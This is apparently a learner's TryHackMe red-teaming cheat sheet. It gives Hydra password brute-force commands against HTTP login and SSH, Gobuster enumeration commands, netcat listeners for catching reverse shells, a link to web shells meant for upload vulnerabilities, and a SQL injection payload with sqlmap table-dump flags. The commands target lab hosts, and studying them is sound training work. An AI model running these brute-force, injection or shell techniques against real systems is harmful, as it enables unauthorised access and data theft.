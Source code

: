 #RedTeaming #tryhackme #web 


#### Hydra:


**HTTP POST Example:** 
```
sudo hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.220.149 http-post-form "/login:username=^USER^&password=^PASS^:F=Your username or password is incorrect" -V 
```

Bruteforce molly's password using rockyou.txt, we spesify the ip and that this is a post request. We also have to spesify the site we are on(in the url we see the /login, then spesify the parameters that we want to bruteforce). Also we have to spesify the error we get when trying wrong credentials. 

**ssh Example:**
```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.220.149 -t 4 ssh -V
```



#### Gobuster: 
It enumerates web directories, DNS subdomains, vhosts, Amazon S3 buckets, and Google Cloud Storage by brute force, using specific wordlists and handling the incoming responses


**Basic directory enumeration:**
```
root@ip-10-10-63-65:/usr/share/wordlists/dirbuster# gobuster dir -u "http://www.offensivetools.thm" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r 
```

Note: By default, the dir mode does not work recursively e.i. it does not go into subdirectories. 

Useful:
```
gobuster -h: Overview over differnt commands
gobuster dir -h: Overview over different flags for dir command
```


**Basic DNS subdomain enumeration:** 
```
root@ip-10-10-205-161:/usr/share/wordlists/SecLists/Discovery/DNS# gobuster dns -d offensivetools.thm -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt 
```


#### Vhost vs DNS subdomains: 

**vhost:** Virtual hosts are a server-side configuration mechanism used by web servers (like Apache or Nginx) to host multiple websites or applications on a single server or IP address

**Subdomains:** DNS subdomains are sub-level domains created within the Domain Name System hierarchy. They are part of the domain name and used to organize resources under a parent domain.
![[Pasted image 20241124200929.png]]

In gobuster: 
- `vhost` mode will navigate to the URL created by combining the configured HOSTNAME (-u flag) with an entry of a wordlist.
- `dns` mode will do a DNS lookup to the FQDN created by combining the configured domain name (-d flag) with an entry of a wordlist.


Basic vhost example:
```
root@ip-10-10-205-161:/usr/share/wordlists/SecLists/Discovery/DNS# gobuster vhost -u "http://10.10.106.172" --domain offensivetools.thm -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain --exclude-length 250-320
```

Since we sending actual webrequests (insted of doing dsn lookup) we have to spesify a few more flags then for the dns scan. 

Notice we need to spesify both the url and the domain! The --append-domain flag does also need to be set for it to work.  


Basic vHost enumeration:


#### Netcat alternatives:

- rlwarp with nc: `rlwarp nc -lvnp 443` Improves the shell, lets us use arrowkeys etc
- Ncat: `ncat -lvnp 4444` improved netcat with SSL 


#### Shell payloads:
With unrestricted file upload vulnerability, we can upload one of these to get a web shell:
https://www.r57shell.net/index.php



#### SQL injection - SQLmap:

Basic example:
```

Normal query: 
SELECT * FROM users WHERE username = 'John' AND password = 'Un@detectable444';

SQL injection:
Username: John
Password: abc' OR 1=1;-- -

SELECT * FROM users WHERE username = 'John' AND password = 'abc' OR 1=1;-- -';
```


automate the task with sqlmap:

```
Basic synatx with get parameters:

sqlmap -u "http://site?email=test&.." 

Then we can add flags such as 
--dbs: Databases 
--tables: Tables 
-D: Spesify a spesific database
-T: Spesify a spesifc table 
--dump: Dump the content of a table

```


#### OSINT:
Overview of tools: https://osintframework.com/
The Harvester: https://github.com/laramies/theHarvester
email finder: https://hunter.io/


#### Web applications and the browser 
"Sometimes automated scanners miss vulnerabilities, that we could have identified doing manual work"

- We can use the **inspector** tool to change the page it our browser, example change a css display property from "block" to "none".
- Using the **debugger**, we can view the .js code running on the page, can even set breakpoints when fuzzing. 
- The **network tab** shows us requests, can inspect these to understand the flow of the application. 
